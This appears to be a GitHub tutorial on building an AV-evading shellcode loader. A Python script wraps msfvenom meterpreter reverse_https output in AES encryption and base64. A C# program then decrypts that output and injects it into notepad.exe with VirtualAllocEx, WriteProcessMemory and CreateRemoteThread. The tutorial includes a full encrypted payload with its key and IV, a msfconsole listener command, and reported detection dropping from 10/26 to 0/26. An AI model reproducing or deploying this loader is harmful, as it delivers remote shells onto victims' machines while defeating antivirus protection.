





# Python3 Aes Encrypted Shell Code

## Overview

We will create a simple python3 Crypter. The script will take raw shell code, in hex string format and encrypt it with AES encryption. The encrypted shell code will finally be encoded into a base64 string, ready to be used in a C# process injection executable, as a proof of concept.

In this example, we will aim to reduce our detection rate on [AntiScan.me](https://antiscan.me/). We will use a basic process injection technique, by calling native DLLs with P/Invoke. This technique is not advanced and will not completely bypass antivirus detection, but it should show reductions in detection rates.

## The C# Process Injector

The C# code aims to inject shellcode into the notepad.exe process. It uses P/Invoke to call functions from the kernel32.dll. We call OpenProcess(), VirtualAllockEx(), WriteProcessMemory() and CreateRemoteThread().

```csharp
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr OpenProcess(uint proessAccess, bool bInheritHandle, int processId);

[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtec);

[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

[DllImport("kernel32.dll")]
static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
```

The shell code was created with msfvenom and sits inside the main function in the buf byte array.
```csharp
// msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.33 LPORT=443 EXITFUNC=thread -f csharp
byte[] buf = new byte[685] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52 }
```

The rest of the code then gets the process name that we wan't to inject into. OpenProcess then gets a handle to the requested process, in this case it's notepad. VirtualAllocEx, allocates memory in the notepad process, along with the type of memory and sets the memory protection to 'PAGE_EXECUTE_READWRITE' (0x40). WriteProcessMemory then writes the shell code contained inside the buf byte array into the allocated memory. CreateRemoteThread, then creates a thread that runs in notepads virtual address space, executing the shell code.

```csharp
Process processName = Process.GetProcessesByName("notepad")[0];

IntPtr hProcess = OpenProcess(0x001F0FFF, false, processName.Id);
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

IntPtr outSize;
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
```

## Current Detection rate

We build this C# code and uploaded to [AntiScan.me](https://antiscan.me/). The results show that our code is detected by 10/26 of the antivirus scans performed. We can now create the python3 Crypter and try to lower this detection rate.



## Creating The Python3 AES Script

### Code Overview 

The Python code will take one argument. The argument determines the encryption type to be used. The script will then run a hard coded msfvenom, system command via python subprocess. The output from the msfvenom command is then encrypted via the chosen encryption type. The last function in the script will encode the encrypted bytes into a base64 string, ready to be used with the C# Process Injection application.

## Getting Our Msfvenom Shell Code 

The first function will simply run a command and save the output to a variable named 'output'. This variable will be returned. For the msfvenom command, we will use a format type of HEX, as this will generate a raw hex string. We will add EXITFUNC of thread, as this runs the shellcode in a sub-thread and gives us a clean exit when closing the connection. 

```python
def shell_format():

    cmd = "msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.111.128 LPORT=443 EXITFUNC=thread -f hex"
    #cmd = 'msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.111.128 LPORT=443 EXITFUNC=thread -f hex'
    output = subprocess.run(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

    return output.stdout
```

## Encrypting The Shell Code

With our returned hex shell code (output), we will call the function 'aes_encrypt_shellcode(data)' and pass the msfvenom command output as data. The following function will assemble the pieces needed to encrypt our data variable.

The function will create two random 16 byte numbers. The first named IV ([Initialization vector](https://en.wikipedia.org/wiki/Initialization_vector)) and second named key ([Encryption Key](https://en.wikipedia.org/wiki/Key_cryptography))). The two variables are needed to create our cipher.

Padding is then added to the data, as we are using AES.MODE_CBC. From there, the cipher_create() function is called, 
along with the three arguments of key,padded and IV. Once the cipher_create() function encrypts the data, it returns it to the 'encrypted_data' variable.

The last line in the function calls the aes_encrypt_shellcode() function and sends the encrypted_data, IV and key to be encoded.


```python
# Creation of key, IV. Then calls cipher_create function. 
def aes_encrypt_shellcode(data):

    IV = get_random_bytes(16)
    key = get_random_bytes(16)

    padded = pad(data,16)
    # Call cipher_create function
    encrypted_data = cipher_create(key,padded,IV)
    # Call base64_encode. 'encrypted_data' is converted to bytes inside C# app
    base64_encode(encrypted_data, IV, key)
```

Called from aes_encrypt_shellcode() and encrypts our data.

```python
# Creates cipher, uses cipher to encrypt data. returns said data.
def cipher_create(key,shellcode,IV):
    # cipher creation
    cipher = AES.new(key,AES.MODE_CBC, IV)
    #Encrypts with the newly created cipher.
    return cipher.encrypt(shellcode)
```

## Encoding Our Encrypted Data

The final part of the script will encode the three arguments passed from the aes_encrypt_shellcode() function. The function simply uses the base64.b64encode() function, with our chosen data as an argument and a variable name for the returning encoded data.

```python
def base64_encode(encrypted_data, IV, key):
    print("[+] Base64 Payloads Are Below!\n")

    encoded_iv = base64.b64encode(IV)
    print(f"[>] IV: {encoded_iv.decode(('utf-8'))}")

    encoded_key = base64.b64encode(key)
    print(f"[>] KEY: {encoded_key.decode(('utf-8'))}")

    encoded = base64.b64encode(encrypted_data)
    print(f"[>] Shell Code: {encoded.decode('utf-8')}")
```

Running the script we get our msfvenom, generated shellcode,  the IV ([Initialization vector](https://en.wikipedia.org/wiki/Initialization_vector)) and the key ([Encryption Key](https://en.wikipedia.org/wiki/Key_(cryptography))) all in base64 encoded strings.



## Decoding The Encrypted Shell Code In Our C# Process Injector

We will now add a few changes to the the C# code. First, we add string variables for our base64 strings. We then convert the base64 strings into byte arrays, with Convert.FromBase64String().

```csharp
// Converts encoded data to bytes
string stringInBase64 = "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";
byte[] fullBytes = Convert.FromBase64String(stringInBase64);
// Key
string key64 = "G01c257gd9kE72/orufPFw==";
byte[] Key = Convert.FromBase64String(key64);
// IV
string IV64 = "rrCbahc3bgSFAZAmL/dHZA==";
byte[] IV = Convert.FromBase64String(IV64);
```

With the conversion of the base64 strings complete, wew can now decrypt the AES encrypted data. The code below creates a  string variable named plaintext, this will hold our decrypted shell code. The rest of the code can be seen at the docs.microsoft pages, under the [Aes Class](https://docs.microsoft.com/en-us/dotnet/api/system.security.cryptography.aes?view=net-6.0)

```csharp
// DecryptStringFromBytes_Aes(shellBytes, Key, IV);
// plaintext stores the decrypted data.
string plaintext = null;

using (Aes aesAlg = Aes.Create())
{
    aesAlg.Key = Key;
    aesAlg.IV = IV;
    // Create a decryptor to perform the stream transform.
    ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

    // Create the streams used for decryption.
    using (MemoryStream msDecrypt = new MemoryStream(fullBytes))
    {
        using (CryptoStream csDecrypt = new CryptoStream(msDecrypt, decryptor, CryptoStreamMode.Read))
        {
            using (StreamReader srDecrypt = new StreamReader(csDecrypt))
            {

                // Read the decrypted bytes from the decrypting stream
                // and place them in a string.
                plaintext = srDecrypt.ReadToEnd();
            }
        }
    }
}
```

With the shell hex code assigned to the 'plaintext' string variable, we must now convert this string to a byte array, two hex characters at a time. We create a byte array named happyEnd, half the size of the plaintext string. We then add two characters from the string, to a list, from the list, we add each element to our happyEnd byte array and convert them to bytes.

```csharp
// Create byte array, half size of decrypted data
byte[] happyEnd = new byte[plaintext.Length / 2];

var res = new List<string>();
for (int i = 0; i < plaintext.Length; i += 2)
    res.Add(plaintext.Substring(i, 2));

for (int i = 0; i < happyEnd.Length; i++)
{
    //Console.WriteLine(res[i].ToString());
    happyEnd[i] = Convert.ToByte(res[i], 16);
}
```

The only changes to the end section of the code, are the use of the shell codes byte array name. 

```csharp
// === Process injection === \\
Process processName = Process.GetProcessesByName("notepad")[0];

IntPtr hProcess = OpenProcess(0x001F0FFF, false, processName.Id);
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

IntPtr outSize;
WriteProcessMemory(hProcess, addr, happyEnd, happyEnd.Length, out outSize);
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
```

## Checking The Detection Rate With Antiscan.me

Uploading the new C# injector, we see that the detection rate has dropped significantly. We get results of 0/26 detections.



## Getting A Reverse Shell On The Target

To test that the InjectAes.exe functions correctly, we first set up a msfconsole listener, with the following command.

```
sudo msfconsole -q -x "use exploit/multi/handler/; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST eth0; set LPORT 443; run
```

Once the listener is set up, we must start a notepad process on the target system. Just before we execute the InjectAes.exe, we can confirm notepads PID in powershell. With the PID in hand, we then execute the InjectAes.exe file on the target system.



We catch the connection in msfconsole and confirm the PID. We now have a terminal connection to the target system.



## Final Thoughts

This has worked well, but is far from a complete solution in terms of trying to bypass antiviruses. This is just an example of the changes in the detection rate, when encrypting our shellcode payload.  


